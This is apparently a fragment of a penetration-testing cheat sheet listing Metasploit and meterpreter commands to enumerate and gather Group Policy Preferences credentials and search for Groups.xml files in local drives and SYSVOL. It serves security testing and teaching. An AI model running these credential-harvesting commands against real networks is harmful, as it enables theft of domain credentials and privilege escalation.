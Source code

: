 # Metasploit

```
auxiliary/scanner/smb/smb_enum_gpp
```

```
meterpreter > run post/windows/gather/credentials/gpp
```

```
meterpreter > ls -RS "Groups.xml" C:\\

meterpreter > search -d C:\\ -f Groups.xml

meterpreter > ls -RS "Groups.xml" //sysvol/policies/

meterpreter > search -d //sysvol/policies/ -f Groups.xml
```

---
## References

- [ZeroSec: Paving The Way to DA - Complete Post (Pt 1,2 & 3)](https://blog.zsec.uk/paving-2-da-wholeset/)